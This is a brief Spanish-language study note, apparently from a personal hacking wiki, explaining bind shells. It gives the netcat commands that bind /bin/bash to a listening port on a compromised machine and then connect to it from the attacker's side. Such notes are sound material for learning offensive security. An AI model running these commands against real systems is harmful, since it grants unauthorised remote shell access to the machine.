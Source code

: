 ----------------------
- Tags: #bash #shells #exploiting #hacking 
--------------
# Definición

> Es una técnica opuesta a la [[Reverse shell]], ya que en vez de que la máquina comprometida se conecte a la máquina del atacante, es el atacante el que se conecta a la máquina comprometida. El atacante escucha por un puerto determinado, y la máquina comprometida es la que acepta la conexión en ese puerto. Tratamos de abrir un puerto temporal en la máquina comprometida, ofreciendo una bash para ser ejecutada por el atacante.

----------------------
# Uso

Para exponer el puerto (usualmente el 443), utilizamos el siguiente comando con [[NetCat]]:

```bash
nc -lnvp <puerto> -e /bin/bash
```

Una vez expuesto el puerto, el atacante puede utilizar el siguiente comando para conseguir una [[Shell]]:

```bash
nc <IP> <puerto>
```

